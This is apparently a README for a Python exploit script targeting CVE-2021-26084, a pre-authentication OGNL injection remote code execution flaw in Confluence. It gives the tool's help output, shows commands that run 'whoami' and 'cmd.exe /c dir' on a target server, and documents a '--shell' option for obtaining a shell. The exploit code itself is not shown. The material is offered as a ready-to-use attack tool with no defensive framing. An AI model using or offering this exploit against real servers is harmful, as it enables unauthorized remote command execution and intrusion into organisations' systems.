 # CVE-2021-26084 - Confluence Pre-Auth RCE  OGNL injection
### Usage

- ```
  usage: cve-2021-26084_confluence_rce.py [-h] --url URL [--cmd CMD] [--shell]
  
  CVE-2021-26084 - Confluence Pre-Auth RCE OGNL injection
  
  optional arguments:
    -h, --help         show this help message and exit
    --url URL, -u URL  Target Url
    --cmd CMD, -c CMD  Command
    --shell            Get shell
  ```

- ```
  python3 cve-2021-26084_confluence_rce.py -u http://target:8090 -c "whoami"
  ```

  ![1630484082986](img/1630484082986.png)

- ```
  python3 cve-2021-26084_confluence_rce.py -u http://target:8090 -c "cmd.exe /c dir"
  ```

  ![1630484112292](img/1630484112292.png)



#### GetShsell

```
python3 cve-2021-26084_confluence_rce.py -u http://target:8090 --shell
```

![1630490483870](img/1630490483870.png)

![1630490401164](img/1630490401164.png)

### Reference:

https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md